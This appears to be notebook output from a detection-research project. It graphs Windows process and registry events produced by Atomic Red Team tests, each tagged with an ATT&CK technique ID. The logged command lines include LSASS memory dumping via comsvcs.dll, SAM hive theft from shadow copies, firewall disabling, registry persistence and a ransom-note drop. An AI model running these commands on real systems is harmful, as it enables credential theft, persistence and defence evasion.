

 47%|████▋     | 77/165 [12:42<02:30,  1.70s/it]

Number of relations in the graph: 6
353254 : cmd.exe_/C_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\webcam\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStart_/t_REG_BINARY_/d_a273b6f07104d601_/f_&&_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\webcam\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStop_/t_REG_BINARY_/d_96ef514b7204d601_/f&C:\Windows\system32\cmd.exe&cmd.exe&8344
107410 : reg__add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\webcam\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStart_/t_REG_BINARY_/d_a273b6f07104d601_/f_&C:\Windows\system32\reg.exe&reg.exe&4720
630970 : reg__add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\webcam\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStop_/t_REG_BINARY_/d_96ef514b7204d601_/f&C:\Windows\system32\reg.exe&reg.exe&8660
691819 : HKLM\S

<Figure size 432x288 with 0 Axes>



 47%|████▋     | 78/165 [12:44<02:21,  1.62s/it]

Number of relations in the graph: 6
31999 : cmd.exe_/C_echo_"Hello_from_the_Windows_Command_Prompt!"_>_"%TEMP%\test.bin"_&_type_"%TEMP%\test.bin"&C:\Windows\system32\cmd.exe&cmd.exe&5520
394432 : C:\Users\ezk\AppData\Local\Temp\test.bin
../graph_benign2/T1059.003_f38e58deb7ad20b5538ca40db7b7b4f8.png has been generated!
T1547.010_4593d72a5145e3f494421ac772d37464


<Figure size 432x288 with 0 Axes>



 48%|████▊     | 79/165 [12:45<02:20,  1.63s/it]

Number of relations in the graph: 6
791705 : cmd.exe_/C_reg_add_"hklm\system\currentcontrolset\control\print\monitors\ART"_/v_"Atomic_Red_Team"_/d_"C:\Path\AtomicRedTeam.dll"_/t_REG_SZ&C:\Windows\system32\cmd.exe&cmd.exe&7912
167055 : reg__add_"hklm\system\currentcontrolset\control\print\monitors\ART"_/v_"Atomic_Red_Team"_/d_"C:\Path\AtomicRedTeam.dll"_/t_REG_SZ&C:\Windows\system32\reg.exe&reg.exe&9876
608470 : HKLM\system\currentcontrolset\control\print\monitors\ART
413864 : HKLM\System\CurrentControlSet\control\print\monitors\ART
294649 : HKLM\System\CurrentControlSet\Control\Print\Monitors\ART\Atomic_Red_Team
../graph_benign2/T1547.010_4593d72a5145e3f494421ac772d37464.png has been generated!
T1003.001_35d92515122effdd73801c6ac3021da7


<Figure size 432x288 with 0 Axes>



 48%|████▊     | 80/165 [12:47<02:14,  1.58s/it]

Number of relations in the graph: 6
644066 : powershell.exe_-ExecutionPolicy_Bypass_-C_"C:\Windows\System32\rundll32.exe_C:\windows\System32\comsvcs.dll,_MiniDump_(Get-Process_lsass).id_$env:TEMP\lsass-comsvcs.dmp_full"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&732
610145 : "C:\Windows\System32\rundll32.exe"_C:\windows\System32\comsvcs.dll_MiniDump_668_C:\Users\ezk\AppData\Local\Temp\lsass-comsvcs.dmp_full&C:\Windows\System32\rundll32.exe&rundll32.exe&3432
255538 : C:\Users\ezk\AppData\Local\Temp\lsass-comsvcs.dmp
../graph_benign2/T1003.001_35d92515122effdd73801c6ac3021da7.png has been generated!
T1003_18f31c311ac208802e88ab8d5af8603e


<Figure size 432x288 with 0 Axes>



 49%|████▉     | 81/165 [12:48<02:09,  1.54s/it]

Number of relations in the graph: 6
380550 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$ps_=_(Get-NetTCPConnection_-LocalPort_3389_-State_Established_-ErrorAction_Ignore);_if($ps){$id_=_$ps[0].OwningProcess}_else_{$id_=_(Get-Process_svchost)[0].Id_};_C:\Windows\System32\rundll32.exe_C:\windows\System32\comsvcs.dll,_MiniDump_$id_$env:TEMP\svchost-exe.dmp_full"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8276
760783 : "C:\Windows\System32\rundll32.exe"_C:\windows\System32\comsvcs.dll_MiniDump_388_C:\Users\ezk\AppData\Local\Temp\svchost-exe.dmp_full&C:\Windows\System32\rundll32.exe&rundll32.exe&11120
624572 : C:\Users\ezk\AppData\Local\Temp\svchost-exe.dmp
../graph_benign2/T1003_18f31c311ac208802e88ab8d5af8603e.png has been generated!
T1548.002_665432a4-42e7-4ee1-af19-a9a8c9455d0c


<Figure size 432x288 with 0 Axes>



 50%|████▉     | 82/165 [12:50<02:09,  1.56s/it]

Number of relations in the graph: 6
434838 : "C:\Program_Files_(x86)\Microsoft\Edge\Application\msedge.exe"_--no-startup-window_/prefetch:5&C:\Program_Files_(x86)\Microsoft\Edge\Application\msedge.exe&msedge.exe&736
78056 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
195080 : C:\Windows\System32\svchost.exe_-k_LocalServiceNetworkRestricted_-p_-s_wscsvc&C:\Windows\System32\svchost.exe&svchost.exe&2772
212004 : C:\Windows\Explorer.EXE&C:\Windows\Explorer.EXE&Explorer.EXE&5708
128905 : "C:\Program_Files_(x86)\Microsoft\Edge\Application\msedge.exe"_--flag-switches-begin_--flag-switches-end_--no-startup-window_/prefetch:5&C:\Program_Files_(x86)\Microsoft\Edge\Application\msedge.exe&msedge.exe&4764
../graph_benign2/T1548.002_665432a4-42e7-4ee1-af19-a9a8c9455d0c.png has been generated!
T1016_7d8ee68f0e9731db82964f558f614608


<Figure size 432x288 with 0 Axes>



 50%|█████     | 83/165 [12:51<02:07,  1.55s/it]

Number of relations in the graph: 5
496577 : cmd.exe_/C_ipconfig_/all_&&_netsh_interface_show_interface_&&_arp_-a_&&_nbtstat_-n_&&_net_config&C:\Windows\system32\cmd.exe&cmd.exe&2288
209049 : ipconfig__/all_&C:\Windows\system32\ipconfig.exe&ipconfig.exe&7092
309061 : netsh__interface_show_interface_&C:\Windows\system32\netsh.exe&netsh.exe&8772
27244 : arp__-a_&C:\Windows\system32\ARP.EXE&ARP.EXE&5876
555974 : nbtstat__-n_&C:\Windows\system32\nbtstat.exe&nbtstat.exe&9652
../graph_benign2/T1016_7d8ee68f0e9731db82964f558f614608.png has been generated!
T1113_316251ed-6a28-4013-812b-ddf5b5b007f8


<Figure size 432x288 with 0 Axes>



 51%|█████     | 84/165 [12:53<02:00,  1.49s/it]

Number of relations in the graph: 5
224455 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$loadResult_=_[Reflection.Assembly]::LoadWithPartialName(\"System.Drawing\");function_screenshot([Drawing.Rectangle]$bounds,_$path)_{___$bmp_=_New-Object_Drawing.Bitmap_$bounds.width,_$bounds.height;___$graphics_=_[Drawing.Graphics]::FromImage($bmp);___$graphics.CopyFromScreen($bounds.Location,_[Drawing.Point]::Empty,_$bounds.size);___$bmp.Save($path);___$graphics.Dispose();___$bmp.Dispose();}if_($loadResult)_{__$bounds_=_[Drawing.Rectangle]::FromLTRB(0,_0,_1000,_900);__$dest_=_\"$HOME\Desktop\screenshot.png\";__screenshot_$bounds_$dest;__if_(Test-Path_-Path_$dest)_{____$dest;____exit_0;__};};exit_1;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8524
572410 : C:\Users\ezk\Desktop\screenshot.png
../graph_benign2/T1113_316251ed-6a28-4013-812b-ddf5b5b007f8.png has been generated!
T1040_6881a4589710d53f0c146e91db513f01


<Figure size 432x288 with 0 Axes>



 52%|█████▏    | 85/165 [12:54<01:56,  1.46s/it]

Number of relations in the graph: 5
560351 : cmd.exe_/C_netsh_trace_start_capture=yes_tracefile=%temp%\trace.etl_maxsize=10&C:\Windows\system32\cmd.exe&cmd.exe&7276
417357 : netsh__trace_start_capture=yes_tracefile=C:\Users\ezk\AppData\Local\Temp\trace.etl_maxsize=10&C:\Windows\system32\netsh.exe&netsh.exe&6972
136071 : C:\Users\ezk\AppData\Local\Temp\trace.etl
../graph_benign2/T1040_6881a4589710d53f0c146e91db513f01.png has been generated!
T1003.002_5a484b65c247675e3b7ada4ba648d376


<Figure size 432x288 with 0 Axes>



 52%|█████▏    | 86/165 [12:55<01:53,  1.43s/it]

Number of relations in the graph: 5
59395 : powershell.exe_-ExecutionPolicy_Bypass_-C_"write-host_\"\";_$shadowlist_=_get-wmiobject_win32_shadowcopy;_$volumenumbers_=_foreach($shadowcopy_in_$shadowlist){$shadowcopy.DeviceObject[-1]};_$maxvolume_=_($volumenumbers_|_Sort-Object_-Descending)[0];_$shadowpath_=_\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\"_+_$maxvolume_+_\"\Windows\System32\config\SAM\";_$mydump_=_$ENV:temp_+_'\'_+_'myhive';_[System.IO.File]::Copy($shadowpath_,_$mydump)"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9784
163768 : C:\Users\ezk\AppData\Local\Temp\myhive
../graph_benign2/T1003.002_5a484b65c247675e3b7ada4ba648d376.png has been generated!
T1491_47d08617-5ce1-424a-8cc5-c9c978ce6bf9


<Figure size 432x288 with 0 Axes>



 53%|█████▎    | 87/165 [12:57<01:48,  1.39s/it]

Number of relations in the graph: 5
688310 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-Content_-Path_'message.txt'_-Value_'proof_that_this_machine_was_hacked.'"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&7152
371417 : C:\Windows\System32\message.txt
../graph_benign2/T1491_47d08617-5ce1-424a-8cc5-c9c978ce6bf9.png has been generated!
T1059.001_702bfdd2-9947-4eda-b551-c3a1ea9a59a2


<Figure size 432x288 with 0 Axes>



 53%|█████▎    | 88/165 [12:58<01:50,  1.43s/it]

Number of relations in the graph: 5
101148 : powershell.exe_-ExecutionPolicy_Bypass_-C_"powershell.exe_-c_\"Get-WmiObject_-class_win32_operatingsystem_|_select_-property_*_|_export-csv_msdebug.log\";"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&1200
136751 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_-c_"Get-WmiObject_-class_win32_operatingsystem_|_select_-property_*_|_export-csv_msdebug.log"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3352
97481 : C:\Windows\System32\msdebug.log
../graph_benign2/T1059.001_702bfdd2-9947-4eda-b551-c3a1ea9a59a2.png has been generated!
T1482_6131397e-7765-424e-a594-3d7fb2d93a6a


<Figure size 432x288 with 0 Axes>



 54%|█████▍    | 89/165 [13:00<01:49,  1.44s/it]

Number of relations in the graph: 5
222206 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Import-Module_.\powerview.ps1_-Force;Get-NetDomain_|_ConvertTo-Json_-Depth_1"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&6876
295768 : C:\Users\ezk\AppData\Local\Microsoft\Windows\SchCache\blueteam.com.sch
../graph_benign2/T1482_6131397e-7765-424e-a594-3d7fb2d93a6a.png has been generated!
T1547.001_d3ef4145e4144fd694514b1c5cc17350


<Figure size 432x288 with 0 Axes>



 55%|█████▍    | 90/165 [13:01<01:52,  1.50s/it]

Number of relations in the graph: 5
446932 : cmd.exe_/C_REG_ADD_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend_/v_1_/d_"C:\Path\AtomicRedTeam.dll"&C:\Windows\system32\cmd.exe&cmd.exe&660
438474 : REG__ADD_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend_/v_1_/d_"C:\Path\AtomicRedTeam.dll"&C:\Windows\system32\reg.exe&reg.exe&7008
638222 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend
701275 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend\1
../graph_benign2/T1547.001_d3ef4145e4144fd694514b1c5cc17350.png has been generated!
T1069.002_6103e503cb444bc7b4187704f2035708


<Figure size 432x288 with 0 Axes>



 55%|█████▌    | 91/165 [13:03<01:52,  1.52s/it]

Number of relations in the graph: 4
39062 : cmd.exe_/C_net_localgroup_&&_net_group_/domain_&&_net_group_"domain_admins"_/domain_&&_net_group_"enterprise_admins"_/domain&C:\Windows\system32\cmd.exe&cmd.exe&10556
747577 : net__localgroup_&C:\Windows\system32\net.exe&net.exe&10576
426829 : net__group_/domain_&C:\Windows\system32\net.exe&net.exe&2128
666241 : net__group_"domain_admins"_/domain_&C:\Windows\system32\net.exe&net.exe&6588
89931 : net__group_"enterprise_admins"_/domain&C:\Windows\system32\net.exe&net.exe&9512
../graph_benign2/T1069.002_6103e503cb444bc7b4187704f2035708.png has been generated!
T1562.004_8fe59e288f10a486dc8b44bc872019ff


<Figure size 432x288 with 0 Axes>



 56%|█████▌    | 92/165 [13:04<01:52,  1.54s/it]

Number of relations in the graph: 4
541700 : C:\Windows\system32\svchost.exe_-k_LocalServiceNoNetworkFirewall_-p&C:\Windows\system32\svchost.exe&svchost.exe&1388
517283 : HKLM\System\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile\EnableFirewall
16932 : cmd.exe_/C_reg_add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile"_/v_"EnableFirewall"_/t_REG_DWORD_/d_0_/f&C:\Windows\system32\cmd.exe&cmd.exe&4728
574742 : reg__add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile"_/v_"EnableFirewall"_/t_REG_DWORD_/d_0_/f&C:\Windows\system32\reg.exe&reg.exe&6448
../graph_benign2/T1562.004_8fe59e288f10a486dc8b44bc872019ff.png has been generated!
T1486_d82ceb9939d3d920ee550187ad8235c8


<Figure size 432x288 with 0 Axes>



 56%|█████▋    | 93/165 [13:06<01:48,  1.51s/it]

Number of relations in the graph: 4
595027 : cmd.exe_/C_echo_T1486_-_Purelocker_Ransom_Note_>_%USERPROFILE%\Desktop\YOUR_FILES.txt&C:\Windows\system32\cmd.exe&cmd.exe&228
796104 : C:\Users\ezk\Desktop\YOUR_FILES.txt
../graph_benign2/T1486_d82ceb9939d3d920ee550187ad8235c8.png has been generated!
T1112_cab7b85611a290c0769546bfa9d6f962


<Figure size 432x288 with 0 Axes>



 57%|█████▋    | 94/165 [13:07<01:45,  1.49s/it]

Number of relations in the graph: 3
591979 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoControlPanel_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&8176
151401 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoControlPanel_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&4388
430521 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoControlPanel
../graph_benign2/T1112_cab7b85611a290c0769546bfa9d6f962.png has been generated!
T1112_4bfb5f265a5ce07af6bf10da113af7db


<Figure size 432x288 with 0 Axes>



 58%|█████▊    | 95/165 [13:09<01:43,  1.48s/it]

Number of relations in the graph: 3
213413 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoTrayContextMenu_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&10868
374296 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoTrayContextMenu_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&4816
604972 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoTrayContextMenu
